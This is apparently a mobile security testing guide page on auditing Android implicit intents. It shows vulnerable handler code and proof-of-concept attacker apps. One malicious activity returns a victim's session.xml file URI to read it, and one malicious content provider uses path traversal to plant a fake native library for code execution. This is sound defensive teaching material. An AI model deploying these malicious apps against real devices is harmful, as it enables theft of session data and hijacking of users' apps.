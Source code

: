```yaml
---
masvs_v1_id:
- MSTG-PLATFORM-2
masvs_v2_id:
- MASVS-CODE-4
platform: android
title: Testing Implicit Intents
masvs_v1_levels:
- L1
- L2
---
```


## Overview

When testing for [implicit intents](../../../0x05h-Testing-Platform-Interaction.md#implicit-intents) you need to check if they are vulnerable to injection attacks or potentially leaking sensitive data.

## Static Analysis

Inspect the Android Manifest and look for any `<intent>` signatures defined inside [<queries> blocks](https://developer.android.com/guide/topics/manifest/queries-element "Android queries") (which specify the set of other apps an app intends to interact with), check if it contains any system actions (e.g. `android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, etc.) and browse the source code for their occurrence.

For example, the following `Intent` doesn't specify any concrete component, meaning that it's an implicit intent. It sets the action `android.intent.action.GET_CONTENT` to ask the user for input data and then the app starts the intent by `startActivityForResult` and specifying an image chooser.

```java
Intent intent = new Intent();
intent.setAction("android.intent.action.GET_CONTENT");
startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);
```

The app uses `startActivityForResult` instead of `startActivity`, indicating that it expects a result (in this case an image), so you should check how the return value of the intent is handled by looking for the `onActivityResult` callback. If the return value of the intent isn't properly validated, an attacker may be able to read arbitrary files or execute arbitrary code from the app's internal `/data/data/<appname>' storage. A full description of this type of attack can be found in the [following blog post](https://blog.oversecured.com/Interception-of-Android-implicit-intents " Current attacks on implicit intents").

### Case 1: Arbitrary File Read

In this example we're going to see how an attacker can read arbitrary files from within the app's internal storage `/data/data/<appname>` due to the improper validation of the return value of the intent.

The `performAction` method in the following example reads the implicit intents return value, which can be an attacker provided URI and hands it to `getFileItemFromUri`. This method copies the file to a temp folder, which is usual if this file is displayed internally. But if the app stores the URI provided file in an external temp directory e.g by calling `getExternalCacheDir` or `getExternalFilesDir` an attacker can read this file if he sets the permission `android.permission.READ_EXTERNAL_STORAGE`.

```java
private void performAction(Action action){
  ...
  Uri data = intent.getData();
  if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {
      ...
  }
}

private FileItem getFileItemFromUri(Context, context, Uri uri){
  String fileName = UriExtensions.getFileName(uri, context);
  File file = new File(getExternalCacheDir(), "tmp");
  file.createNewFile();
  copy(context.openInputStream(uri), new FileOutputStream(file));
  ...
}
```

The following is the source of a malicious app that exploits the above vulnerable code.

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
</application>
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```

If the user selects the malicious app to handle the intent, the attacker can now steal the `session.xml` file from the app's internal storage. In the previous example, the victim must explicitly select the attacker's malicious app in a dialog. However, developers may choose to suppress this dialog and automatically determine a recipient for the intent. This would allow the attack to occur without any additional user interaction.

The following code sample implements this automatic selection of the recipient. By specifying a priority in the malicious app's intent filter, the attacker can influence the selection sequence.

```java
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```

### Case 2: Arbitrary Code Execution

An improperly handled return value of an implicit intent can lead to arbitrary code execution if the victim app allows `content://` and `file://` URLs.

An attacker can implement a [`ContentProvider`](https://developer.android.com/reference/android/content/ContentProvider "Android ContentProvider") that contains `public Cursor query(...)` to set an arbitrary file (in this case _lib.so_), and if the victim loads this file from the content provider by executing `copy` the attacker's `ParcelFileDescriptor openFile(...)` method will be executed and return a malicious _fakelib.so_.

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```

EvilContentProvider.java

```java
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```

## Dynamic Analysis

A convenient way to dynamically test for implicit intents, especially to identify potentially leaked sensitive data, is to use Frida or frida-trace and hook the `startActivityForResult` and `onActivityResult` methods and inspect the provided intents and the data they contain.
